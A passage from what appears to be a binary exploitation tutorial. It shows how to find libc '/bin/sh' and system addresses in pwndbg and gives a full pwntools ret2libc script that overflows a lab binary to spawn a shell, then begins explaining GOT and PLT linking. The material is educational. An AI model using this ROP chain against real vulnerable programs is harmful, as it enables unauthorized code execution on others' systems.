 ```bash
0x000000000040101a : ret
```

These instructions will be at mostly every binary so we dont need to worry about it not being in your program. Now we have `RDI` address `0x00000000004012d3` Next we need `/bin/sh` address, `system` address form where we want to call (We cant do `elf.sym.system`) like before because system function is not present in binary and finally we need `ret` (return) address which will run before system address just to fix stack misalignment. 

Previously we got address of `/bin/sh` from libc.

```bash
pwndbg> search /bin/sh
Searching for byte: b'/bin/sh'
libc.so.6       0x7ffff7dcb42f 0x68732f6e69622f /* '/bin/sh' */
```

We can see its address is `0x7ffff7dcb42f` now we need system function address. We can run program again and `CTRL+C` at when its taking input and we can use command `p system` to print system function.

```bash
pwndbg> p system
$1 = {int (const char *)} 0x7ffff7c58750 <__libc_system>
```

As shown above we got system function address `0x7ffff7c58750` which is of libc library and finally we need address of `ret` which we already know from above `ROPGadget` tool which is `0x000000000040101a`. Now just put it in exploit.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2libc')

io = process()

pop_rdi = 0x00000000004012d3
bin_sh = 0x7ffff7dcb42f
system = 0x7ffff7c58750
ret = 0x000000000040101a

payload = cyclic(40) + pack(pop_rdi) + pack(bin_sh) + pack(ret) + pack(system)

io.sendline(payload)

io.interactive()
```
## 0x7 - Global Offset Table (GOT) and Procedure Linkage Table (PLT)

**Linking** is the process of combining various pieces of code and data into a single executable or library. These pieces typically come from object files (compiled source code), libraries, or other modules. Linking ensures that function calls, variable references, and symbols in a program are correctly resolved, allowing the program to execute as intended. There are two main types of linking: **static linking** and **dynamic linking**.
